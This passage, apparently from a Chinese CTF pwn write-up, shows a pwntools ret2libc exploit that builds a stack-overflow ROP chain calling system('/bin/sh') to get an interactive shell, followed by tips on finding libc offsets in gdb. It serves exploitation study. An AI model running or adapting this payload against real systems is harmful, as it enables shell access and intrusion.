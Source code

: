 ```
ret_libc=0x29139    #libc中的ret
system_libc_addr = libc.sym['system'] #system的偏移地址
binsh_libc_addr = next(libc.search(b"/bin/sh")) #libc查/bin/sh字符串
pop_rdi = libc_base + pop_rdi_libc #求真实地址
ret=libc_base + ret_libc
system = libc_base + system_libc_addr
binsh = libc_base + binsh_libc_addr

payload=b'a'*(0x100+8)+p64(pop_rdi)+p64(binsh)+p64(ret)+p64(system) #记得system的堆栈平衡
io.send(payload)
io.recv()
io.interactive()
```

求出 `libc_start_main_offset` 的方法，在gdb中用 `vmmap` 和 `distance` 命令

`vmmap` 查找 libc基址的方法：

<div align=center><img src="../images/2024/09/19/t_pwn27.png" alt="pwn" border="0" width="70%" height="80%"></div>
